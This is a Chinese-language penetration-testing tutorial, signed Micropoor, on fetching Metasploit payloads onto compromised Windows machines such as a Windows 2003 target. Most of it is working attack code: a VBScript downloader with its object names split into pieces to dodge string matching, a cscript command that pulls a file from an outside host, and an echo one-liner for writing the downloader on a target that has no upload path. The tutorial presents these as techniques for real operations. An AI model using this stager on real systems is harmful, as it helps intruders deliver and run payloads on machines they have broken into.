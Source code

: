 一次 msf 完整的流程离不开目标机的 payload 下载与执行。而针对不同环境目标，考虑或者选择不同方式的 payload 下载与执行。如 webshell 下，注入点下。smb 下等。而针对不同的实际环境，来做最好的选择。

既然本季开始专门针对 windows 下的 payload 下载讲解，那么就需要考虑到目标机的系统版本，是windows2000，windows 2003，或者是更高的版本如 windows 2016等。

无论是哪个版本的windows系列，都是支持vbs的。

**靶机：**windows 2003  

### vbs：  

保存downfile.vbs
```visual-basic
set a=createobject("adod"+"b.stream"):set
w=createobject("micro"+"soft.xmlhttp"):w.open "get",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile
wsh.arguments(1),2
```

### 命令行下执行：
```bash
cscript downfile.vbs http://192.168.1.115/robots.txt C:\Inetpub\b.txt
```

![](media/7f46749ce580dd58f217f4757f5f6529.jpg)

往往在实战中，没有上传的方便条件，尤其是目标机是 windows，只有 echo 方式来写入 vbs。

### 命令行下执行：
```bash
echo set a=createobject(^"adod^"+^"b.stream^"):set
w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open^"get^",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile
wsh.arguments(1),2 >>downfile.vbs
```  

**优点：**支持windows全版本系列  
**缺点：**对https不友好

>   Micropoor
